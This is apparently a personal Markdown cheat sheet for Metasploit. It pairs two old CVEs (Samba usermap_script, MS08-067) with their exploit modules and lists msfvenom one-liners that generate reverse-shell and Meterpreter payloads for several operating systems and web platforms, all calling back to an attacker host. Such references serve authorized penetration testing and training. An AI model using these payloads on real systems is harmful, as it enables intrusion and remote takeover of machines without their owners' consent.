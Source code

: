 # Metasploit
#exploit #msf #metasploit


## Post-Modules
Name | Desc
--- | ---
`local_exploit_suggester` | finds exploits in x86 envs


## Correlation
Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


## MSFVenom
Source: https://netsec.ws/?p=331
Name | Desc
--- | ---
`msfvenom -l` | show payloads


### OS
Name | Desc
--- | ---
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf` | ELF / Linux
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe` | EXE / Windows
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho` | macho / Mac / OSX

### Prog-Langs
Name | Desc
--- | ---
`./msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.1 -f raw -o test.py` | Python payload

### Web
Name | Desc
--- | ---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php && cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp` |  ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp` | JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war` | WAR


## Meterpreter
### Zugriff auf Alternate Data Stream
`cat <binary-name>:<ads-name>`